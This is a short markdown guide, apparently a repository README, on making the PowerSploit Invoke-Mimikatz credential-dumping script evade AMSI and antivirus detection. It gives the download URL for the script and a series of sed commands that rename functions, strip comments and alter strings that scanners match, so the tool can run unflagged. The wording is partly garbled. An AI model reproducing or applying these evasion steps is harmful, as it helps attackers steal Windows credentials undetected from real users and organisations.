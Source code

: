 # AMSI evasion and clear text password to spike the mimikatz hash

### What is this? 
Antivirus evasion activity using set command and ISE sploit module to bypass windows and anti-malware scan and AMSI as well

### How we can do it?  
- Step 1: download Invoke-Mimikatz.ps1 from PowershellMafia:
  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1

- Step 2: then substitute all “invoke-Mimikatz” currencies with “invoke-Lsasscraper” inside the invoke-mimikatze.ps1 script:
  ```diff sed -i -e 's/Invoke-Mimikatz/Invoke-LSASSscraper/g' Invoke-Mimikatz.ps1```

- Step 3: remove all comments:
  sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1

- Step 4: remove all comment indented
  sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1

- Step 5: replace parameters and strings they can picked up by antivirus engine:
  sed -i -e 's/DumpCreds/Dump/g' Invoke-Mimikatz.ps1
  sed -i -e 's/ArgumentPtr/0bf/g' Invoke-Mimikatz.ps1
  sed -i -e 's/CallDllMainSC1/0bfSC1/g' Invoke-Mimikatz.ps1
  sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1
